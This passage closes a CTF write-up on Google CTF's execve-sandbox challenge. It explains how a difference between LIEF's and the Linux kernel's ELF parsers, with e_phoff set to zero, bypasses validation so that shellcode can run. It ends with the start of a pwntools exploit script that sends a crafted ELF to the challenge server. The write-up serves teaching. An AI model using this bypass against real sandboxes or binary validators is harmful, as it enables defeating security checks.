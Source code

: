 After all the failed ideas we finally arrive at a working solution: we search for a difference in the parsers used by the challenge binary and the Linux kernel, which allows us to bypass the ELF validation. It makes sense that such a difference exists, because the two parsers are designed with different goals in mind: the LIEF parser tries to correctly parse the binary according to the standard, while the kernel tries to load and execute the binary even if it doesn't follow the standard strictly.

When we tamper with the ELF header for a while, we notice some interesting behaviour, which can be explained by looking at the source code of the parsers:

The LIEF parser [skips parsing](https://github.com/lief-project/LIEF/blob/e794ac1502ee7636755bd441923368f88525a7d0/src/ELF/Parser.tcc#L58) of the program header table (which specifies the ELF's segments) when `e_phoff` is zero:

```cpp
if (this->binary_->header_.program_headers_offset() > 0) {
    this->parse_segments<ELF_T>();
} else {
    LOG(WARNING) << "Binary doesn't have a program header";
}
```

While the Linux kernel happily [loads the binary](https://github.com/torvalds/linux/blob/86a2bb5ad83161cc687671bdf188699e137ae226/fs/binfmt_elf.c#L422):

```c
loff_t pos = elf_ex->e_phoff;
[...]
/* Read in the program headers */
retval = kernel_read(elf_file, elf_phdata, size, &pos);
```

Using this difference in the parsers, we can craft a custom ELF file, which has its program header table located at offset zero, to skip the ELF validation part, and directly map `0x10000` using a `PT_LOAD` segment. We include a small shellcode in our binary, which writes `./flag` to `0x10000` and executes `execve(0x10000, NULL, NULL)`, and finally retrieve the flag!

`CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}`

## Conclusion

Although it took me several different ideas and approaches to solve this challenge, I eventually succeeded, and learned a lot about Linux' ELF loader and memory management internals on the way!

I hope you enjoyed reading this writeup as much as I did writing it. Thanks to Google for organizing this great CTF!

## Exploit Script

Last but not least, the script I used to solve the challenge:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

exe = './flag'
addr = 0x10000


def exploit():
    # build the handcrafted elf
    elf = build_elf()
    # send it to the server
    r = remote('execve-sandbox.ctfcompetition.com', 1337)
    r.recvuntil('ELF binary...\n')
    r.send(elf + 'deadbeef')
```